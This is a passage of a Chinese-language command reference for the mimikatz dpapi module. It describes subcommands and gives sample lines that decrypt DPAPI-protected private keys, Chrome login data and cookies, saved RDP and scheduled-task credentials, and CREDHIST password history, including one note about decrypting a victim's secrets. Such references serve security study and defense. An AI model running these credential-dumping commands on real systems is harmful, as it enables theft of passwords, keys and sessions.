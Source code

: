 mimikatz # dpapi::blob /in:dpapi_blob.txt /unprotect
```

## cache
显示DPAPI模块的凭证缓存

```
mimikatz # dpapi::cache
```

## capi
解密一个CryptoAPI的私钥文件

```
mimikatz # dpapi::capi /in:"D:\\Users\\Gentil Kiwi\\AppData\\Roaming\\Microsoft\\Crypto\\RSA\\S-1-5-21-494464150-3436831043-1864828003-1001\\79e1ac78150e8bea8ad238e14d63145b_4f8e7ec6-a506-4d31-9d5a-1e4cbed4997b" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
```

## chrome
从Chrome中转储的证书和cookies
```
mimikatz # dpapi::chrome /in:"C:\Users\m3g9tr0n\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
```

## cng

> decrypts a given CNG private key file. According to this document, the Crypto Next Generation (CNG) API is a successor of of Crypto API (CAPI).

```
mimikatz # dpapi::cng /in:"C:\Users\m3g9tr0n\AppData\Roaming\Microsoft\Crypto\Keys\de7cf8a7901d2ad13e5c67c29e5d1662_e4aad2d1-5ec0-4ea4-b259-65eda5bc47a8" /unprotect
```


## create

从原始密钥和元数据创建一个DPAPI主密钥文件。当你想在你的机器上解密一个受害者的DPAPI机密时，它就会派上用场。
```
mimikatz # dpapi::create /guid:{5c22983f-77ee-41e4-9086-8073d664e417} /key:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3 /password:Super_SecretPass /protected
```

## cred
解密DPAPI保存的凭证，如RDP、计划任务等。
```
mimikatz # dpapi::cred /in:%systemroot%\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\AA10EB8126AA20883E9542812A0F904C
```

## credhist
描述了一个Credhist文件。Passcape提到，CREDHIST是一个密码历史文件，做为一个链条，其中每个链接代表用户的旧密码哈希值（NT和SHA1）。每次用户改变密码时，旧的密码哈希值被附加到文件中，并以新的密码进行加密。

```
mimikatz# dpapi::credhist in:"C:\users<UserName>\appdata\Roaming\Microsoft\Protect\CREDHIST"
```

## masterkey

描述了一个Masterkey file，并解开了每个Masterkey 的保护（取决于密钥）。换句话说，它可以从活动目录中解密和请求Masterkey 

```